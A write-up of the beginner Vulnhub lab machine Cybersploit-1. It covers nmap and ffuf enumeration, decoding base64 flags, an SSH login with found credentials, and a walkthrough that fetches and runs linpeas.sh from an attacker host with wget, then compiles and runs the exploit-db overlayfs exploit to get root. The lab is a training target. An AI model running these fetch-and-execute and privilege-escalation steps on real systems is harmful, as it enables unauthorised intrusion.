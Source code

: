 ```yaml
---
title: Vulnhub - Cybersploit-1 | EN
author: batmanly
date: 2023-03-25 10:10:00 +3
categories: [Writeup, Vulnhub, Cybersploit]
tags: [web, writeup, encoding, base64, cybersploit-1, overlays, exploitdb]
render_with_liquid: false
---
```



# Information

## ROOM

-   **Name:** `Cybersploit-1`
-   **Profile:** [Cybersploit-1](https://www.vulnhub.com/entry/cybersploit-1,506/)
-   **Difficulty:** Easy
-   **Description**: THIS IS A MACHINE FOR COMPLETE BEGINNER , THERE ARE THREE FALGS AVAILABLE IN THIS VM. FROM THIS VMs YOU WILL LEARN ABOUT ENCODER-DECODER & EXPLOIT-DB.

# Write-up

## Overview

It’s a easy machine you can learn encoding/decoding and user exploit db exploits.

## Network enumeration

let's start finding ip address of the machine than we will enumeration port and services with Nmap.
```bash
sudo arp-scan -l -I vboxnet0
```

![[]](/assets/img/vulnhub/cybersploit/cybersploit-1/img.png)

### Port and service scan with Nmap:

after finding ip of our cybersploit-1 machine we can now start scanning network.
```bash
sudo nmap -sV -T4 -sS -v -Pn -p- 192.168.56.102 -sC -oN nmap3 
```
we found there is 2 port is open , let's enumerate web services and if there is a weakness we will exploit this vulnerabilities.
```
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 011bc8fe18712860846a9f303511663d (DSA)
|   2048 d95314a37f9951403f49efef7f8b35de (RSA)
|_  256 ef435bd0c0ebee3e76615c6dce15fe7e (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Hello Pentester!
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
MAC Address: 08:00:27:86:68:85 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

## Web enumeration
let's look website . when i looked website first page in the view-source i found a username , let's keep it for further usage.
```
view-source:http://192.168.56.102/
```
![[]](/assets/img/vulnhub/cybersploit/cybersploit-1/img_1.png)
after looking up  `robots.txt` i found a some kind of base64 encoded string , let's decode this.
```bash
echo -e 'R29vZCBXb3JrICEKRmxhZzE6IGN5YmVyc3Bsb2l0e3lvdXR1YmUuY29tL2MvY3liZXJzcGxvaXR9' | base64 -d
```
simple flag nothing interesting , i will scan directories with FFUF.
```
Good Work !
Flag1: cybersploit{youtube.com/c/cybersploit} 
```
I like use ffuf for finding any directories , let's scan for directories and files , or backups.

```bash
ffuf -w /home/batmanly/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -u http://192.168.56.102/FUZZ -c -ic -e .txt,.php,.bak,.tar.gz
```

```
[Status: 200, Size: 2333, Words: 318, Lines: 51, Duration: 5ms]
    * FUZZ: index

[Status: 200, Size: 2333, Words: 318, Lines: 51, Duration: 6ms]
    * FUZZ: 

[Status: 200, Size: 79, Words: 2, Lines: 3, Duration: 0ms]
    * FUZZ: robots.txt

[Status: 200, Size: 79, Words: 2, Lines: 3, Duration: 9ms]
    * FUZZ: robots

[Status: 200, Size: 3757743, Words: 22955, Lines: 21776, Duration: 1ms]
    * FUZZ: hacker

[Status: 200, Size: 2333, Words: 318, Lines: 51, Duration: 1ms]
    * FUZZ: 

[Status: 403, Size: 295, Words: 21, Lines: 11, Duration: 12ms]
    * FUZZ: server-status

```

### SSH Login with founded username-password

after finding nothing with directory scanning , i wanted to try the flag we found and username we found in the website with ssh login and i successfully login with that credentials.

![[]](/assets/img/vulnhub/cybersploit/cybersploit-1/img_2.png)

## Privilege Escalation
Now it's time to escalate our privileges and get root shell .

it's good to look for home directory when you get access any machine, because of that i started investigation home directory i found flag2.txt , it's also encoded numbers , i will decode and see what's interesting there.

```bash
cat flag2.txt
```
![[]](/assets/img/vulnhub/cybersploit/cybersploit-1/img_3.png)

after decoding encoded string we found second flag , i guess it's also a password of any account , let's see.
![[]](/assets/img/vulnhub/cybersploit/cybersploit-1/img_4.png)
i tried the flag i found with root and cybersploit user , but i couldn't get access other user , let's search more.
```
cybersploit{https:t.me/cybersploit1}
```

i will upload Linpeas and use it too find a way to escalate privileges.
```bash
updog -p 8000
```

```bash
wget http://192.168.56.1:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

```

![[]](/assets/img/vulnhub/cybersploit/cybersploit-1/img_5.png)

after running linpeas we found overlays exploit , this machine is vulnerable to this vulnerability 
![[]](/assets/img/vulnhub/cybersploit/cybersploit-1/img_6.png)

### Exploiting overlays vulnerability

we can download exploit from here and move it to machine , then compile exploit and run. let's do it.

```
https://www.exploit-db.com/exploits/37292
```

i copy and paste the content of the exploit inside `x3.c` file and compile it as a exploit writer suggest and run. than we got root.
![[]](/assets/img/vulnhub/cybersploit/cybersploit-1/img_7.png)

compile exploit
```
gcc  x3.c -o ofs
./ofs
```

![[]](/assets/img/vulnhub/cybersploit/cybersploit-1/img_8.png)

![[]](/assets/img/vulnhub/cybersploit/cybersploit-1/root.gif)
Yep. Now we Got root. Thanks for reading until the end , if you have any feedback i will appreciate to get , knowing different ways to get root always good for me.